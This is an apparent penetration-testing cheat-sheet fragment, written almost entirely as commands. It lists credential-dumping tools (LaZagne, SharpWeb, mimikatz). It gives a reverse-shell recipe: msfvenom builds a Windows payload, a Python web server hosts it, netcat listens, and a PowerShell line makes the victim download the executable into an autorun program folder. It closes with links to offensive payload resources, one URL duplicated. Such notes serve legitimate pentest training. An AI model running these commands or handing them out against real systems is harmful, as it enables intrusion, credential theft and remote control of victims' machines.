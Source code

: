 - POST exploitation 

``` 
lazagne.exe all
SharpWeb.exe
mimikatz.exe
```

- Getting a shell

``` 
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd C:\Program Files\Autorun Program\
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')
```


**useful links**
1. https://www.revshells.com/
2. https://gtfobins.github.io/
3. https://pentest.ws/
4. https://www.exploit-db.com/
5. https://github.com/swisskyrepo/PayloadsAllTheThings
6. https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.htmlhttps://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
  
